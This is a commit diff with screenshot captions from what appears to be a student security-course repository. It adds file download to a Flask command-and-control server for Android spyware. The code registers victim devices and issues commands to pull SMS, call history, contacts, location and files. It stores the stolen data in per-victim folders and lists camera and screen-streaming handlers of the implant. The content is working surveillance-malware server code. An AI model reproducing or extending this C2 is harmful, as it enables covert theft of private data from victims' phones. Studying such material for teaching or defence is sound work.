

Before and after one commit to alloygoh/ICT2207-C2, a Flask app: template templates/client.html in a window 1280 px wide. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
feat: add file download

```diff
--- a/app.py
+++ b/app.py
@@ -1,7 +1,11 @@
+import os
+
 from flask import Flask, flash, request, redirect, url_for, send_file, render_template, render_template_string
 from datetime import datetime
 from encryption import *
 from utils import print_debug
+from base64 import b64decode
+from binascii import unhexlify
 
 
 PACKET_CALLBACK = 0x1
@@ -10,12 +14,11 @@ PACKET_ERROR = 0xFF
 PACKET_DATA = 0x3
 PACKET_BIG_DATA = 0x4
 
+EXFIL_DATA_PATH = "data"
+
 app = Flask(__name__)
 app.secret_key = b'\xed\xa1\x80\t\xa5n_\xcd\xb7\xfc\x83\xa20\x13]\x9b\xfe\xf3\xc4\xd3\xa5'
 
-# should use rc4 for decryption
-first = False
-client = None
 
 class Client:
     def __init__(self, addr, data):
@@ -25,114 +28,193 @@ class Client:
         self.key: bytes = data[5:21]
         self.current_task = None
 
+        self.file_listing = None
+        self.file_listing_directory = None
+
+    def complete_task(self, data):
+
+        client_id = self.id.hex().upper()
+        print_debug("Completing task for {client_id}")
+        if self.current_task.command_code == 0x0:
+            data = rc4_decrypt(data, self.key)
+            data = data[5:]
+            success = self.current_task.callback(
+                client_id, data, self.current_task.args)
+        else:
+            # use RSA for small data
+            data = decrypt(data)
+            data = data[5:]
+            success = self.current_task.callback(client_id, data)
+
+        if success:
+            self.current_task = None
+            return encrypt("success", self.key)
+        else:
+            return encrypt("error", self.key)
+
 
 class Command:
-    """
-    Instance of a command the C2 can send
-    Each command is identified by both Command Code and the arguments provided (to support getting of both Downloads and Pictures)
-
-    label_value is used to tag the dropdown option with the appropriate identifier for the command
-    command_code and arguments are delimited by a _
-
-    get_payload returns the appropriate command to send the server:
-    currently the format is <command_code><args if any>
-    """
-
-    def __init__(self, command_code, label, arg=None):
+    def __init__(self, command_code, label, callback_function=None):
         self.command_code = command_code
         self.label = label
-        self.arg = arg
+        self.callback = callback_function
 
-    def get_payload(self):
+
+class Task(Command):
+    def __init__(self, command, args=None):
+        super().__init__(command.command_code, command.label, command.callback)
+        self.args = args
+
+    def run(self):
         command_code = bytes([self.command_code])
-        if self.arg:
-            arg = self.arg.encode()
-            return command_code + arg
+        if self.args:
+            args = self.args.encode()
+            return command_code + args
         return command_code
 
 
-clients: dict[bytes, Client] = {}
+clients: dict[str, Client] = {}
+
+"""
+    put(0, CommandHandlers::fileUpload);
+    put(1, CommandHandlers::getFileListing);
+    put(2, CommandHandlers::startVideoStream);
+    put(3, CommandHandlers::switchCamera);
+    put(4, CommandHandlers::stopVideoStream);
+    put(5, CommandHandlers::startDisplayStream);
+    put(6, CommandHandlers::stopDisplayStream);
+    put(7, CommandHandlers::readSMS);
+    put(8, CommandHandlers::readCallHistory);
+    put(9, CommandHandlers::readContacts);
+    put(10,CommandHandler::getLocation);
+"""
+
+# Callback functions for other functions
+
+
+def save_to_disk(client_id, label, data):
+
+    path = os.path.join(EXFIL_DATA_PATH, client_id, label)
+    os.makedirs(path, exist_ok=True)
+    file_name = os.path.join(
+        path, datetime.now().strftime("%d-%m-%Y_%H:%M:%S"))
+
+    with open(file_name, "wb") as f:
+        f.write(data)
+
+    return 1
+
+
+def sms_callback(client_id, data):
+    return save_to_disk(client_id, "sms", data)
+
+
+def call_history_callback(client_id, data):
+    return save_to_disk(client_id, "call_history", data)
+
+
+def contact_callback(client_id, data):
+    return save_to_disk(client_id, "contacts", data)
+
+
+def location_callback(client_id, data):
+    return save_to_disk(client_id, "location", data)
+
+
+def file_listing_callback(client_id, data):
+    client = clients.get(client_id)
+    data = data.decode().rstrip()
+    client.file_listing = data.split('\n')
+
+    return 1
+
+def file_upload_callback(client_id, data, file_path):
+    file_dir, file_name = file_path.split(',')
+    path = os.path.join(EXFIL_DATA_PATH, client_id, file_dir)
+    os.makedirs(path, exist_ok=True)
+    file_name = os.path.join(path, file_name)
+
+    with open(file_name, "wb") as f:
+        f.write(data)
+
+    return 1
 
 # Placeholder for supported commands, to be updated when Spyware features fully implemented
-commands = [
-    Command(0x0, "Read External Storage"),
-    Command(0x1, "Get Downloads", "downloads"),
-    Command(0x1, "Get Pictures", "pictures")
+file_listing_commands = [
+    (Command(0x1, "Get Pictures", file_listing_callback), "pictures"),
+    (Command(0x1, "Get Downloads", file_listing_callback), "downloads"),
+    (Command(0x1, "Get Documents", file_listing_callback), "documents"),
+    (Command(0x1, "Get DCIM", file_listing_callback), "dcim")
 ]
 
+sidebar_commands = [
+    Command(0x7, "Get SMS", sms_callback),
+    Command(0x8, "Get Call History", call_history_callback),
+    Command(0x9, "Get Contacts", contact_callback),
+    Command(0x10, "Get Location", location_callback)
+]
 
-def lookup_command(command_code, arg):
-    for command in commands:
-        if command.command_code == command_code and command.arg == arg:
-            return command
+sidebar_commands = {
+    command.command_code: command for command in sidebar_commands}
+
+get_file_command = Command(0x0, "Download File", callback_function=file_upload_callback)
+
+def add_new_client(client_id, data, addr):
+    print_debug(f'new client id: {client_id}')
+    global clients
+
+    data = decrypt(data)
+    # add client to list
+    new_client = Client(addr, data)
+    clients[client_id] = new_client
+
+    return new_client
+
+# tentatively receive data from exfil
 
 
-def process_callback(addr, data):
-    print_debug(f'data: {data}')
-    global clients
-    # 4 byte client id
-    client_id = data[1:5].hex().upper()
-    print_debug(f'Callback: {client_id}')
-    if client_id not in clients.keys():
-        global first
-        first = True
-        # add client to list
-        clients[client_id] = Client(addr, data)
-        return client_id
-    # conflict in id, ask client to regen
-    return None
+@app.route('/api/update', methods=['POST'])
+def recv_data():
+
+    request_data = request.data
+    client_id = request_data[0:8].decode()
+    res = request_data[8:]
+
+    if client_id not in clients:
+        client = add_new_client(client_id, res, request.remote_addr)
+        print_debug('Got new client!')
+        return encrypt('success', client.key)
+
+    else:
+        client = clients.get(client_id)
+
+        if client.current_task:
+            result = client.complete_task(res)
+            return result
+
+        else:
+            data = decrypt(res)
+            if data[0] == PACKET_CALLBACK:
+                return render_template_string('Client already exists {{ errorCode }}', errorCode='404'), 404
+
+# provides commands for poll
 
 
-# tentatively receive data from exfil
-@app.route('/api/update', methods=['POST'])
-def recv_data():
-    global first
-    global client
-    if first:
-        data = rc4_decrypt(request.data, clients[client].key)
-        client = None
-        first = False
-    else:
-        data = decrypt(request.data)
-
-
-    if data[0] == PACKET_CALLBACK:
-        client_id = process_callback(request.remote_addr, data)
-        if client_id:
-            print_debug('got new client!')
-            return encrypt("success", clients[client_id].key)
-        # cant encrypt since no key
-        return render_template_string('PageNotFound {{ errorCode }}', errorCode='404'), 404
-
-    elif data[0] == PACKET_DATA:
-        now = datetime.now()
-        client_id = data[1:5].hex().upper()
-        file_name = clients[client_id].id.hex() + '_' + \
-            now.strftime("%d-%m-%Y_%H:%M:%S")
-        with open(file_name, 'wb') as f:
-            f.write(data[5:])
-        print_debug(data[5:20])
-        return encrypt("success", clients[client_id].key)
-
-
-# provides commands for poll
 @app.route('/api/notification', methods=['GET'])
 def provide_command():
-    global first
-    global client
     client_id = request.args.get('id')
     client = clients.get(client_id)
     print_debug(client_id)
     if client.current_task:
-        data = client.current_task.get_payload()
+        data = client.current_task.run()
         print_debug(data)
-        data = encrypt(data, clients[client_id].key)
+        data = encrypt(data, client.key)
         print_debug(data)
 
         return data
 
     else:
-        return 'No command'
+        return encrypt(b'90', client.key)
 
 
 @app.route('/', methods=['GET', 'POST'])
@@ -144,24 +226,40 @@ def control_centre():
         if client.current_task:
             task_count += 1
 
-    return render_template('index.html', clients=clients.items(), commands=commands, task_count=task_count)
+    return render_template('index.html', clients=clients.items(), task_count=task_count)
 
 
-# used to contril individual clients
+# used to control individual clients
 @app.route('/client', methods=['GET'])
 def control_client():
 
     client_id = request.args.get('id')
+    client = clients.get(client_id)
     command_code = request.args.get('cmd')
 
     if command_code:
         command_code = int(command_code)
-        command_arg = request.args.get('arg')
-        print(command_code)
-        print(command_arg)
-        command = lookup_command(command_code, command_arg)
+        command_args = request.args.get('args')
 
-        client = clients.get(client_id)
-        client.current_task = command
+        if command_code in sidebar_commands:
+            command = sidebar_commands.get(command_code)
+            print_debug(f"Command: {command.command_code}")
+            print_debug(f"Args: {command_args}")
 
-    return render_template('client.html', client_id=client_id, commands=commands)
+        # download file from host
+        if command_code == 0x0:
+            command = get_file_command
+
+        # get file listing
+        if command_code == 0x1:
+            client.file_listing_directory = command_args
+            for command, args in file_listing_commands:
+                if command_args == args:
+                    command = command
+                    break
+
+        # create a new task out of a command
+        task = Task(command, args=command_args)
+        client.current_task = task
+
+    return render_template('client.html', client_id=client_id, ip_address = client.addr, file_listing_commands=file_listing_commands, sidebar_commands=sidebar_commands.items(), file_listing=client.file_listing, file_listing_directory = client.file_listing_directory)
--- a/templates/client.html
+++ b/templates/client.html
@@ -16,18 +16,26 @@
 <body class="sb-nav-fixed">
     <nav class="sb-topnav navbar navbar-expand navbar-dark bg-dark">
         <!-- Navbar Brand-->
-        <a class="navbar-brand ps-3" href="/">Control Centre</a>
+        <a class="navbar-brand ps-3" href="/">YummyTiramisu</a>
     </nav>
     <div id="layoutSidenav">
         <div id="layoutSidenav_nav">
             <nav class="sb-sidenav accordion sb-sidenav-dark" id="sidenavAccordion">
                 <div class="sb-sidenav-menu">
                     <div class="nav">
-                        <div class="sb-sidenav-menu-heading">Commands</div>
 
-                        {% for command in commands %}
+                        <div class="sb-sidenav-menu-heading">File System</div>
+                        {% for command, args in file_listing_commands %}
                         <a class="nav-link"
-                            href="client?id={{ client_id }}&cmd={{ command.command_code }}&arg={{ command.arg }}">
+                            href="client?id={{ client_id }}&cmd={{ command.command_code }}&args={{ args }}">
+                            {{ command.label }}
+                        </a>
+                        {% endfor %}
+                        <div class="sb-sidenav-menu-heading">Discovery</div>
+
+                        {% for command_code, command in sidebar_commands %}
+                        <a class="nav-link"
+                            href="client?id={{ client_id }}&cmd={{ command_code }}">
                             {{ command.label }}
                         </a>
                         {% endfor %}
@@ -39,8 +47,27 @@
         <div id="layoutSidenav_content">
             <main>
                 <div class="container-fluid px-4">
-                    <h1 class="mt-4">{{ client_id }}</h1>
+                    <h1 class="mt-4">{{ client_id }} (IP: {{ ip_address }})</h1>
+                    <div class="col-xl-12">
+                        <div class="card mb-4">
+                            <div class="card-header">
+                                <i class="fas fa-file me-1"></i>
+                                Files: {{ file_listing_directory }}
+                            </div>
+                            <div class="card-body">
+                                {% if file_listing %}
+                                    {% for file in file_listing %}
+                                        <a href="client?id={{ client_id }}&cmd=0&args={{ file_listing_directory }},{{ file }}">{{ file }}</a>
+                                        <br>
+                                    {% endfor %}
+                                {% else %}
+                                    Looks like there are no files to display, use the 'File System' commands to retrieve information from host
+                                {% endif %}
+                            </div>
+                        </div>
+                    </div>
                 </div>
+
             </main>
             <footer class="py-4 bg-light mt-auto">
                 <div class="container-fluid px-4">
--- a/templates/index.html
+++ b/templates/index.html
@@ -16,7 +16,7 @@
 <body class="sb-nav-fixed">
     <nav class="sb-topnav navbar navbar-expand navbar-dark bg-dark">
         <!-- Navbar Brand-->
-        <a class="navbar-brand ps-3" href="">Control Centre</a>
+        <a class="navbar-brand ps-3" href="">YummyTiramisu</a>
     </nav>
     <div id="layoutSidenav">
         <div id="layoutSidenav_nav">
@@ -26,7 +26,7 @@
         <div id="layoutSidenav_content">
             <main>
                 <div class="container-fluid px-4">
-                    <h1 class="mt-4">Host Information</h1>
+                    <h1 class="mt-4">Control Centre</h1>
                     <div class="row">
                         <div class="col-xl-3 col-md-6">
                             <div class="card bg-success text-white mb-4">
@@ -85,7 +85,7 @@
                                         <td class="col-1">{{ loop.index }}
                                         <td class="col-2">{{ id }}</td>
                                         <td class="col-2">{{ client.addr }}</td>
-                                        <td class="col-6">{{ client.current_task }}</td>
+                                        <td class="col-6">{{ client.current_task.label }}</td>
                                         <td class="col-1"><a type="button" class="btn btn-primary"
                                                 href="client?id={{ id }}"><i class="far fa-eye"></i></a></td>
                                     </tr>
```
